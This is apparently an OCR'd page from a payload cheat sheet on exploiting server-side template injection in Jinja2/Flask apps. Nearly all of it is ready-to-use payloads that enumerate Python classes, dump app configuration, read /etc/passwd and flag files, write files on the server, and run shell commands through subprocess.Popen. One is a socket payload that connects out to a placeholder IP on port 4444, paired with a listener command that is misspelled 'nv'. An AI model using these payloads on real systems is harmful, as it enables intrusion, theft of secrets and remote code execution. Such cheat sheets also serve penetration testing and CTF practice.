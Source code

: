 ### Dump all used classes

```python
{{ [].class.base.subclasses() }}
{{''.class.mro()[1].subclasses()}}
{{ ''.__class__.__mro__[2].__subclasses__() }}
```

### Dump all config variables

```python
{% for key, value in config.iteritems() %}
    <dt>{{ key|e }}</dt>
    <dd>{{ value|e }}</dd>
{% endfor %}
```

### Read remote file

```python
# ''.__class__.__mro__[2].__subclasses__()[40] = File class
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/tmp/flag").read() }}
```

### Write into remote file

```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/var/www/html/myflaskapp/hello.txt', 'w').write('Hello here !') }}
```

### Remote Code Execution

Listen for connexion

```bash
nv -lnvp 8000
```

#### Exploit the SSTI by calling subprocess.Popen.
:warning: the number 396 will vary depending of the application.

```python
{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
```

#### Exploit the SSTI by calling Popen without guessing the offset

```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```
